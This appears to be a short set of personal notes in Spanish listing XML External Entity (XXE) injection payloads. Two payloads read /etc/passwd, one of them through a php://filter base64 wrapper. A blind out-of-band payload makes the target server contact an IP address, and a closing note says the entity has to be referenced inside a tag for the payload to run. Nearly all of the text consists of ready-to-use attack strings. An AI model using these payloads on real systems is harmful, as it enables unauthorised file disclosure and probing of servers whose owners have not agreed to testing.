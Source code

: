 -- -
## Payloads: 
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>

# XXE Out Of Band interaction (OOB) 
Estas mismas son lo mismo que las anteriores solo que a ciegas:
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.0.229/testXXE">]>





## Aclaraciones:
- Siempre hay que "invocar" el nombre de la entidad dentro de la estructura XML para asi ejecutar el payload. (&myFile dentro de algun tag). 

